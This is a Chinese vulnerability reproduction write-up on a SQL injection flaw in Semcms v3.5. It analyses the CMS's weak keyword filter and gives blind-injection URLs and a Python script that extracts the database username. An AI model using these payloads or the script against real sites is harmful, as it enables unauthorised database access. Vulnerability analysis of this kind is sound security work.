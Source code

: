 # Semcms v3.5 sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3122](https://www.zhihuifly.com/t/topic/3122)

# Semcms v3.5 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms v3.5

## 三、复现过程

### 漏洞分析

在分析过程中看到网上已经有人发现semcms V2.4存在过滤不严导致sql注入的漏洞，不知道咋还没改，而且最新版过滤的关键字更少了。

首先查看首页文件index.php的代码

```
1 <?php
2 include_once  'Include/web_inc.php';
3 include_once  'Templete/default/Include/Function.php';
4 $file_url="";
5 include_once  'Templete/default/Include/default.php';
6 ?> 
```

```
 1 //网站logo
 2 
 3 $weblogo=$web_url_meate.str_replace('../','',$row['web_logo']);
 4 
 5 // 控制文字标签 更改 获取的 语种 id
 6 
 7 if (isset($_GET["languageIDD"])){$Language=test_input(verify_str($_GET["languageIDD"]));}else{$Language=verify_str($Language);}
 8 
 9 if(!empty($Language)){
10 
11       //网站SEO设定
12 
13       $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
14       $row=mysqli_fetch_array($query);
15       $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题 
```

```
 1 // 防sql入注
 2 
 3 if (isset($_GET)){$GetArray=$_GET;}else{$GetArray='';}     //所有GET方式提交的变量都进行防注入检查
 4  
 5 foreach ($GetArray as $value){ //get
 6     
 7     verify_str($value);
 8   
 9 }
10 
11 function inject_check_sql($sql_str) {
12   
13      return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);    //过滤关键字
14 } 
15 
16 function verify_str($str) { 
17  
18    if(inject_check_sql($str)) {
19    
20        exit('Sorry,You do this is wrong! (.-.)');      //如果出现关键字则提示
21     } 
22  
23     return $str; 
24 } 
```

```
 1 function test_input($data) {                   //防止XSS
 2       $data = str_replace("<script", "", $data);
 3       $data = str_replace("</script>", "", $data);
 4       $data = str_replace("%", "percent", $data);
 5       $data = trim($data);
 6       $data = stripslashes($data);
 7       $data = htmlspecialchars($data,ENT_QUOTES);    //实体编码
 8       return $data;
 9 
10    } 
```

可以看到第16行的函数verify_str()调用inject_check_sql()用来过滤危险字符，函数test_input用来过滤xss。其中可以明显地看到第11行的函数inject_check_sql()采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过

### 漏洞复现

```
http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0    显示正常 
```

![image](img/43751a9c8c27b838ea61c6fe7c1695ae.png)

```
http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0    显示错误 
```

![image](img/89e056cf5e5b9df3d262a3c929bccf43.png)

参考网上已有的fuzz盲注脚本改了下，代码如下

```
#用python3版本
import requests
url = "http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"
print("Testing url: " + url)
#十进制数33-126间的ascii hex值
payload = ["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",
            "0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
            "0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",
            "0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",
            "0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",
            "0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",
            "0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",
            "0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",
            "0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",
            "0x7b","0x7c","0x7d"
           ]
user = ""
for b in range(len(payload)):
    for a in payload:
        #sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称
        sql_payload_user = " and strcmp(substr(user(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))            #当前数据库用户名
        res = requests.get(url + sql_payload_user).text
        res1 = requests.get(url).text
        if len(res) == len(res1):        #如果返回的内容长度大小一样，则表示匹配成功
            user = user + a
            print(" ")
            print("[*]info : 0x" + user.replace("0x","").upper())
            break
        else:
            print('\r',"Match failed,Next.....",end='') 
```

测试结果如下图

![image](img/ebd23766886fe6b65c6a9ac64a2c9518.png)

解码ascii hex值0x726F6F74406C6F63616C686F7374为root@localhost。当然因为过滤了select，获取表名就有点困难了，t00ls中看到有人介绍用selselectect来绕过的方式跟这个CMS的过滤方式是不一样的，所以行不通。暂时想到的办法是可以找一与验证密码有关的注点，因为这个注点包含表名，所以可以通过fuzz猜测其字段名，最后通过字段名取得字段值，可以看下这篇文章[blind-sql-injection-burpsuite-like-a-boss(要翻墙)](https://depthsecurity.com/blog/blind-sql-injection-burpsuite-like-a-boss)

## 参考链接

> https://www.cnblogs.com/st404/p/10087191.html